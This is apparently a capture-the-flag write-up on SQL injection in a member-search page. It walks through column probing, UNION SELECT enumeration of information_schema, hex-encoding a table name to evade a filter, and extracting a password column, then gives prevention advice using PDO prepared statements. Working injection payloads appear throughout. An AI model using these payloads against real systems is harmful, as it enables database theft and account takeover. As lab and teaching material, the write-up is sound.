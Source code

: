 - On this page, we can look for members though their IDs.
- We can suppose the original query looks like something like this:
    - $id = $_GET['id'];
    - $sql = "SELECT * FROM users WHERE id = $id";  (Vulnerable)

- The fifth one is telling "Hack me", let's guess how many columns there are:
    - 5 ORDER BY 1
    - 5 ORDER BY 2
    - 5 ORDER BY 3 -> Error, we can guess that there is only 2 columns.


- 5 UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=database()

```
ID: 5 UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=database() 
First name: Flag
Surname : GetThe
ID: 5 UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=database() 
First name: users
Surname : 2
```

- this confirms us that the table users exist.
- 5 UNION SELECT column_name, 2 FROM information_schema.columns WHERE table_name = users -- -
- This doesnt work maybe because there may e a WAF or something that block the "users" string. We can just encode this in hexadecimal and it works.
- 5 UNION SELECT column_name, 2 FROM information_schema.columns WHERE table_name = 0x7573657273 -- -
- In human: "Give me the table_name from the list of all tables, but only for the database I’m currently in."



```
in here we can look for members trough their ID, let's have a look at each one.
The fifth on is screaming hack me! Let's pop it's columns names.

5 ORDER BY 1
5 order by 2
3 doesn't work so it stops there.

5 UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=database()
we know now that the name of the first table is users so lets encode it and retrieve the rest of the columns names
5 UNION SELECT column_name, 2 FROM information_schema.columns WHERE table_name = 0x7573657273 -- -
5 union select Commentaire, 2 from users
5 UNION SELECT countersign, 2 FROM users -- -

First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !

the original input form might be like this since we need 2 columns to validate the query :
    SELECT title, url FROM list_images WHERE id = 5

5 UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema = database()
so in here 5 validates the query,
UNION combines results of two SELECT queries so we can
continue another query with it.
SELECT table_name, 2
table_name -> lists table names and 2 is just a filler
to satisfy the 2-column SELECT structure.FROM information_schema.tables
information_schema.tables is a system table that holds
metadata about all tables in the DB.
by querying this we can list all tables in the database.WHERE table_schema = database()
table_schema -> database name associated with each table.
database() -> is a function that returns the current DB name
so this condition ensures we are listing only tables from the current DB.
in human : "Give me the table_name from the list of all tables, but only for the database I’m currently in."
```



- How to prevent:
    1. Sanitize input
    2. Use PDO with php to prepare sql query before sending it prevent sql injections thank to parameterization
        ```php
        $stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");
        $stmt->execute(['id' => $_GET['id']]);
        ```
        - Becomes: SELECT * FROM users WHERE id = '1 OR 1=1'; (User input is now one interpreted as one string prevent SQLi)

- Impact:
    1. Leak of data
    2. Data manipulation
    3. Bypassing authentication leading to account takeover
